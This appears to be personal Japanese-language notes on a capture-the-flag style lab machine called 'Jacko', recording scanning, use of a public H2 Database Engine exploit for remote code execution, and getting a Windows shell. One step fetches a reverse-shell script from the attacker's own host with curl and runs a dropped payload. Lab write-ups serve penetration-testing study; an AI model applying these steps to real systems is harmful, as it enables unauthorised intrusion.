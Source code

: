 # Jacko
## Time
foothold = 35min
getshell = 40min
privesc =  ∞


## 教訓
- Windows特有のシェル取りの難しさがあった。
- Windowsのときはmeterpreter runさせるのがよさそう。安定する。
- PATHが通ってないとかがあるので、setしたりして環境変数設定するのも大事。


## 手順
1. rustscanすると、8082と80ポートが怪しい。
2. feroxbusterすると8082ポートの方で、H2 Database EngineというJava系アプリが動いてる。[このエクスプロイト](https://www.exploit-db.com/exploits/49384)を使う。その際、login自体はパスワードなしでいける。
3. エクスプロイトを使うとjacko\tonyが表示され、whoamiがうまくいってることが分かる。
4. tcpdumpとpython3 -m http.server 80でチェックしながらRCEで動作するコマンドを探る。curl 192.168.45.186:80/rev.ps1 -o ./rev.ps1が動いた。cmd /c dirも動く。
5. 実行しているディレクトリはC:\Program Files (x86)\H2\serviceということが分かる。cmd /c cdのコマンドを実行するとわかる
6. tcpdumpするとcurlで取得はできてるっぽいけど、どうもフォルダへの書き込みができていないっぽい？なのでcurlの-oでファイルの書き込み先を../../../Users/Public/hoge.exeみたいにする。そうすると、C:\Users\Public\hoge.exeにファイルを吐き出すことになり、そのフォルダ指定してhoge.exeを実行するとシェルが取れる。
7. ただ、whoamiやcmd.exeといった一般的なコマンドがnot foundとなってまともに実行できない。これは環境変数が適切なデフォルト値になっていないためと考えられるため、環境変数を設定する。以下のコマンドで、powershellのコマンドをシェルに指定できる。  
```
set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;
```

## 総括
- 